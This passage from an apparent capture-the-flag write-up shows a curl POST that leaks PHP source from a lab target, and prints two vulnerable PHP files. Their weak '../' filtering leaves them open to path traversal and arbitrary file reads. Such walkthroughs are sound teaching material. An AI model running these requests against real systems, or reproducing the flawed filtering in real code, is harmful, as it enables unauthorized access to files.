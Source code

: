 I could start to guess at bypasses for the filtering that’s going on, but rather, I’ll grab the site source. I can pipe the curl output into `jq` with the `-r` flag to print the string as raw, and select the `file` object (if you don’t know [`jq`](https://stedolan.github.io/jq/), you should check it out - it comes in handy in so many situations with json data.

So this command will grab `dirRead.php`:

```

root@kali# curl -s -X POST -d "file=dirRead.php" http://10.10.10.87/fileRead.php | jq -r .file

```

```

<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
        if(isset($_POST['path'])){
                header('Content-type: application/json');
                $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
                echo json_encode(scandir("/var/www/html/" . $_POST['path']));
        }else{
                header('Content-type: application/json');
                echo '[false]';
        }
}

```

`fileRead.php`:

```

<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
                header('Content-Type: application/json');
                $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                if(strpos($_POST['file'], "user.txt") === false){
                        $file = fopen("/var/www/html/" . $_POST['file'], "r");
                        $fileContent['file'] = fread($file,filesize($_POST['file']));
                        fclose();
                }
        }
        echo json_encode($fileContent);
}

```

`fileWrite.php`:
